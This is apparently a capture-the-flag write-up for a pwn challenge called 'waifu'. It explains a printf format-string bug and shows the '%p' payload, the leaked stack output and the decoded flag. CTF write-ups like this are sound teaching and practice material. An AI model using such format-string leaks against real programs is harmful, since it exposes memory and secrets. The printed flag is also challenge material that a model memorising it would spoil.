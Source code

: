 # waifu
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/solves-111-orange)

## Description
Honestly I just needed a name, I am almost out of time :skull:.

Connect with `nc litctf.live 31791`

[waifu.zip](https://drive.google.com/uc?export=download&id=1SVW7rWSdpu3cPYDyATw5a9pJJMH0umTS)

## Solution
Looking at the source code, there is a format string exploit. Our input is passed directly to `printf`, which can leak the flag. Because alloca creates space on the stack, we can use `%p` to leak information off the stack.
```
$ nc litctf.live 31791
Do you like waifus?
%p%p%p%p%p%p%p%p%p%p

Wtmoo how could you say:
0x7fb568199723(nil)0x7fb5680ba0770x190x7c0x667b46544354494c0x747833745f6d30720x755f68732e3772340x61616161616161770x7d61616161616161
```

Cleaning the data a bit by removing the (nil) and `0x`, as well as padding all the tokens to be 16 characters, we can use CyberChef to get the flag.

![](https://cdn.discordapp.com/attachments/359503958601105418/1003410720148435125/unknown.png)

Flag: `LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}`
